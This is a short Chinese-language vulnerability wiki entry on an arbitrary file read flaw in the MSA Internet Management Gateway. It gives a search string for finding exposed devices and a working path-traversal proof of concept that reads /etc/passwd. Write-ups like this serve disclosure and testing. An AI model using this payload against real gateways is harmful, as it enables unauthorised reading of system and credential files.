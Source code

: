 # MSA 互联网管理网关 msa 任意文件下载漏洞

## 漏洞描述

MSA 互联网管理网关存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器任意文件

## 漏洞影响

<a-checkbox checked>MSA 互联网管理网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"互联网管理网关"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1628845284708-f3f1c3ed-387c-49d6-a817-c1a8264fda2e.png)

验证POC

```php
/msa/../../../../etc/passwd
```

![img](/assets/PeiQi-Wiki/img/1628845414925-23bff98f-8fb8-4fee-aee6-cd981973b368.png)



若有收获，就点个赞吧